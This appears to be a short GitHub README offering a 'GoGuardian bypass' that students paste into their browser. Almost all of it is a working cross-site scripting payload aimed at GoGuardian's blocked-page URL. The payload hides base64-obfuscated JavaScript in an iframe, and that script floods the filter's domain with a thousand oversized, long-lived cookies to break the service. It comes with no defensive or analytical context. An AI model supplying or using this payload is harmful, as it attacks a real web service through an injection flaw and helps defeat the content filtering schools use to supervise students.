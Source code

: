 # bypass
gogaurdian byass
so paste this url here into you browser and restart your computer

https://student.goguardian.com/teacher/blocked.html?cs=[{"name": ""}, {"name": "<iframe srcdoc=\"<script>eval(atob(`b25sb2FkID0gKCkgPT4gewpmb3IgKGxldCBpID0gMDsgaSA8IDFlMzsgaSsrKQogIGRvY3VtZW50LmNvb2tpZSA9IGB4JHtpfT0ke2J0b2EoCiAgICBTdHJpbmcuZnJvbUNoYXJDb2RlLmFwcGx5KAogICAgICAwLAogICAgICBjcnlwdG8uZ2V0UmFuZG9tVmFsdWVzKG5ldyBVaW50OEFycmF5KDk5ICogMzIpKQogICAgKQogICkuc3Vic3RyaW5nKDAsIDk5ICogMzIpfTtleHBpcmVzPSR7bmV3IERhdGUoCiAgICA5ZTE0CiAgKS50b1VUQ1N0cmluZygpfTtkb21haW49JHt0b3AubG9jYXRpb24uaG9zdG5hbWUKICAgIC5zcGxpdCgiLiIpCiAgICAuc2xpY2UoLTIpCiAgICAuam9pbigiLiIpfTtwYXRoPS9gOwoKfQ==`))</script>\"></iframe>"}]
